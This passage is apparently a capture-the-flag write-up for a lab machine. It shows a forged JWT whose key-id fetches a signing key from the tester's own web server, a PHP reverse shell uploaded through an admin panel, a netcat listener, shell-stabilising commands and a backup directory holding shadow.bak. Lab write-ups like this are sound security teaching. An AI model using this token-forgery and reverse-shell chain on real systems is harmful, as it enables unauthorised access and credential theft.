 #### crafted Cookie

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC40Njo4MDAwL2p3dFJTMjU2LmtleSJ9.eyJ1c2VybmFtZSI6Imtpbmdjb2JyYSIsImVtYWlsIjoia2luZ2NvYnJhQG5vdGVib29rLmh0YiIsImFkbWluX2NhcCI6dHJ1ZX0.JpHz2FZ-u3C76bS1KFV9kX0TPgNtE1rcFT4n3dPYDW_EmhZwW5UHHZLD5KtjBSlgJDjxwO9_h7k1uVHIXsIcAYteowklHqdgtWdKVoW7qKU2Lcq9mjtfDjhTMRCJR01XYlbR7vZpqHV5mXV7EpkuJJ2j1BLl4wyr7bHqfrOWD_E1oINYG5gTdbN8JTqEl0caPt69qu-3NGWfD9xMzCL1WWW8ZtO-QHMHXd_FwBVVMTZiEawK6VKhCw6ymnxul7jo7oY_yGLJ3ZzHnF6LqauFWb57QMpUFwSgVENqiN46YhUeuJirchl1f8UP_2wsDMutWi0u-RaOYc9LBfypnvdiko8GPdCn97xK_H93PqIEGFKUk9ppRHt8pH1MIdB0P4_Je3GZ2ECR7DEnN9Wuxz1udl48bCs1T8PdjI6PNM3bBUXIhSKF0beQ6wM6pt0tTDpc_WdAQh2nfj7TCJtKwlduK9S_HO7mfY_aIijzW6OSs1LdptvdIsabu9sJPvXFZIgJCpM76zKCwqMGJQItullryrWO9pVQXcxqE7XHZza4OJhdmY692JUVg-FnDv6eHbgZCbReGC0ouukl08L5seROYa3MHZR3KSreJs5-jK8MblhvKbqKynVaWUtcLP9KTkPiRKyaJyt_9qNlHmN16kKd5oTQf2j4whkvcN2Clo7itFo
```
opening webserver to the our RS256 private key using python3 web server `python3 -m http.server`

## Admin Page 

after replaceing the cookie with our crafted cookie we request the our home page to notice that the website has made a requset to our python3 server to get the private key 

! [] (../images/key-request.png)

we notice that we have now a new admin panel tab in the navbar

![] (../images/admin-panel.png)

## FootHold

after going to the admin panel page we see that we can upload files to the server 

we're going to try to upload a php rev shell to the site.

! [] (./images/file-upload.png)

starting a nc listner `nc -lvnp 1234` and pressing the view button => we have a revshell 

! [] (./images/foothold.png)

## Stablize Shell

```text
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm-256color
^z
stty raw -echo;fg
```
## User SHELL

looking at the notes we find an interesting note:

! [] (./images/backups.png)

going to the `/var/backups` directory we find:

```text
www-data@thenotebook:/var/backups$ ls
alternatives.tar.0        apt.extended_states.3.gz  group.bak    shadow.bak
apt.extended_states.0     dpkg.diversions.0         gshadow.bak
apt.extended_states.1.gz  dpkg.statoverride.0       home.tar.gz
apt.extended_states.2.gz  dpkg.status.0             passwd.bak
```
